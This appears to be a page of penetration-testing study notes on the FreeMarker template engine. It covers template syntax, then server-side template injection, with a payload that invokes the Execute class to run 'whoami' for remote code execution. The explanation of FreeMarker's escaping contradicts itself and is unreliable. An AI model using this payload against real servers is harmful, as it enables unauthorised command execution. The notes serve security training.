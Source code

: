 # Freemarker

## Syntax

FreeMarker uses the [**FreeMarker Template Language (FTL)**](https://freemarker.apache.org/docs/dgui_template_overallstructure.html) which consists of text, interpolation, FTL tags, and comments.

```ftl
<html>[BR]
<head>[BR]
  <title>Welcome!</title>[BR]
</head>[BR]
<body>[BR]
  <#-- Greet the user with his/her name -->[BR]
  <h1>Welcome ${user}!</h1>[BR]
  <p>We have these animals:[BR]
  <ul>[BR]
  <#list animals as animal>[BR]
    <li>${animal.name} for ${animal.price} Euros[BR]
  </#list>[BR]
  </ul>[BR]
</body>[BR]
</html>
```

FreeMarker auto-escapes variables if the content type is an HTML document, while most other templating engines always escape HTML content unless specified not to. This make FreeMarker more susceptile to HTML injection (Figure 1.1) and XSS attacks (Figure 1.2).

<figure><img src="../../../.gitbook/assets/web_ssti_freemarker_syntax.png" alt=""><figcaption><p>Figure 1: Testing HTML injection and XSS in FreeMarker.</p></figcaption></figure>

Unlike PHP used in [Twig](freemarker.md#twig), Java uses cares about data types so if an integer is multiplied with a string, we expect to get an error (Figure 2).

<figure><img src="../../../.gitbook/assets/web_ssti_freemarker_syntax_1.png" alt=""><figcaption><p>Figure 2: Intentionally inducing an error.</p></figcaption></figure>

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```
